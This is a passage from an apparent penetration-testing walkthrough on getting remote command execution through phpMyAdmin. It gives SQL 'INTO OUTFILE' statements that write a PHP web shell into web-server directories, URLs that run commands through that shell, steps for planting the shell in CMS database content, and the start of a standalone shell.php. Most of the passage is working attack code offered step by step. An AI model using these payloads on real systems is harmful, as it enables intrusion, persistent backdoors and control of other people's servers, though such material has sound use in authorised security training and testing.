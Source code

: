 ```bash

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/shell.php";

   -- or

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/images/shell.php";

   -- or

   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/tmp/shell.php";

   ```

   5. After successful execution, access your web shell:

   ```bash

   http://192.168.74.162/shell.php?cmd=id

   http://192.168.74.162/shell.php?cmd=whoami

   http://192.168.74.162/shell.php?cmd=ls%20-la

   ```
   ![phpMyAdmin SQL Injection](/images/phpmyadmin-sql.png)
   ![Web Shell Execution](/images/webshell-execution.png)
   **Method 2: Modify Existing Database Content**

   If the direct file write method doesn't work due to permissions:

   1. In phpMyAdmin, browse the available databases in the left panel
   2. Look for content management databases (like WordPress, Joomla, Drupal)
   3. Find tables that store page content (common names: wp_posts, content, pages, articles)
   4. Select a table and click "Browse"
   5. Find a row with content that's likely displayed on the website
   6. Click "Edit" on that row
   7. Replace the content with your PHP web shell code:

   ```php
   <?php system($_GET['cmd']); ?>
   ```

   8. Save the changes
   9. Visit the page on the website and append `?cmd=id` to the URL
   ![Database Content Modification](/images/phpmyadmin-content-edit.png)
   **Method 3: Using phpMyAdmin's Import Feature**

   1. Create a file named `shell.php` on your local machine with the following content:

   ```php

   <?php

   // Simple PHP Web Shell

   if(isset($_GET['cmd'])) {

       echo "<pre>";

       system($_GET['cmd']);

       echo "</pre>";

```